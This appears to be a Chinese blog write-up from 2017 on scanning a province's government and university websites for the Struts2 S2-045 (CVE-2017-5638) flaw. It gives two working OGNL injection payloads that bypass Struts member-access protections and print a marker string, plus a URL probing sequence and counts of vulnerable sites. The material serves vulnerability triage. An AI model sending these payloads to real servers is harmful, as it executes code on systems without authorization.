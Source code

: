 
# 基于全省政府网站的S2-045漏洞排查
---

// 2017/03/08


## 关于S2-045

[1] [https://cwiki.apache.org/confluence/display/WW/S2-045](https://cwiki.apache.org/confluence/display/WW/S2-045 "漏洞官方公告")   

[2] [http://paper.seebug.org/241/](http://paper.seebug.org/241/ "S2-045原理初步分析")

[3] [http://bobao.360.cn/learning/detail/3571.html](http://bobao.360.cn/learning/detail/3571.html "【重大漏洞预警】Struts 2 远程代码执行漏洞（CVE-2017-5638）（含PoC）")


## 验证S2-045
公开的PoC中Payload是用来执行系统命令，敏感关键字比较多容易触发防火墙，不适合大范围排查。对于验证S2-045而言，只需要验证ognl表达式是否被执行，修改Payload后得到：  
Payload1:

    %{(#test='multipart/form-data').(#dm=@ognl.OgnlContext@DEFAULT_MEMBER_ACCESS).(#_memberAccess?(#_memberAccess=#dm):((#container=#contex['com.opensymphony.xwork2.ActionContext.container']).(#ognlUtil=#container.getInstance(@com.opensymphony.xwork2.ognl.OgnlUtil@class)).(#ognlUtil.getExcludedPackageNames().clear()).(#ognlUtil.getExcludedClasses().clear()).(#context.setMemberAccess(#dm)))).(#ros=(@org.apache.struts2.ServletActionContext@getResponse().getOutputStream())).(#ros.println('ognl-executed!')).(#ros.close()).(#ros.flush())}

Payload2:

	~multipart/form-data %{(#_memberAccess=@ognl.OgnlContext@DEFAULT_MEMBER_ACCESS).(#ros=@org.apache.struts2.ServletActionContext@getResponse().getOutputStream()).(#ros.println('ognl-executed!')).(#ros.close()).(#ros.flush())}



## 排查S2-045

该漏洞爆发后第一时间对省内政府单位网站进行排查，相对于此前S2系列漏洞如S2-032，网站是否存在S2-045漏洞很容易被程序自动检测出来。对于如S2-032，需要找到一个有效Action的URL发送Payload，验证才是有效的。而对于S2-045，任意一个能触发S2入口过滤器的URL就可以（具体请参考相关的漏洞分析文章）。通常实际情况中网站S2入口过滤器监听URL的配置有：  
1）监听所有URL。占绝大多数情况，此时对任意URL发送Payload验证都可以验证是否存在漏洞；

    <filter-mapping>
        <filter-name>struts-prepare</filter-name>
        <url-pattern>/*</url-pattern>
    </filter-mapping>

2）监听.action后缀URL。此时只需要被验证的URL后缀为.action就可以验证是否存在漏洞；

        <url-pattern>*.action</url-pattern>


3）监听.do后缀的URL。这种情况已经非常少了，但验证过程中还是发现有，故也需要处理；


        <url-pattern>*.do</url-pattern>


4）监听特殊的URL（比如.xyz）。这种情况由于触发S2入口过滤器的URL不可预知，根据页面去动态提取URL耗费较大，而这种情况实际中又非常少见，故在大范围验证进选择忽略。

        <url-pattern>*.xyz</url-pattern>


综上，对于任意给定的网站[`http://target.com/a/b.xyz`]，判断是否存在S2-045漏洞的过程如下：  

1）对URL[`http://target.com/a/b.xyz`]发送Payload验证：
>如果验证存在漏洞则结束验证，否则继续往下;  

2) 对URL[http://target.com/a/test.action]发送Payload验证：
> 如果验证存在漏洞则结束验证，否则继续往下;  

3) 对URL[`http://target.com/a/test.do`]发送Payload验证：
> 如果验证存在漏洞则结束验证，否则继续往下;  

4) 验证结束，漏洞不存在。  


## 验证结果

对全省共6000多个政府单位网站验证后，其中60个存在S2-045漏洞；  
对全省*.edu.cn下2000多个网站进行验证，其中12个存在S2-045漏洞；  
详情略。

## 验证程序

	s2-045.py


## 注意事项
1. 部分网站不同目录下挂载不同的WEB应用,排查时会遗漏这些应用；
2. urllib2跟进30X重定向时会丢弃Content-type字段。
